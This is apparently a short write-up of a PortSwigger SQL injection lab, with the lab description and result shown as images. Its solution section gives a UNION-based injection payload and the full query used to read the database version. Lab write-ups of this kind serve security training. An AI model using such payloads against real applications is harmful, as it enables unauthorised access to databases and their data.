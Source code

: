 ## Lab Description:

<img width="868" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a1028afc-2fc6-4642-b4c6-513c2cd444ba">


## Solution:

Therefore I need to inject ' UNION SELECT 'a',@@version# to obtain the version information with the following query:

```SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a',@@version#'```

<img width="1281" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/9bf4f626-02cc-4709-81ed-b0fa291db071">

## Result:

<img width="1199" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/86f047f2-7821-49bc-a778-c1f0e29e734f">
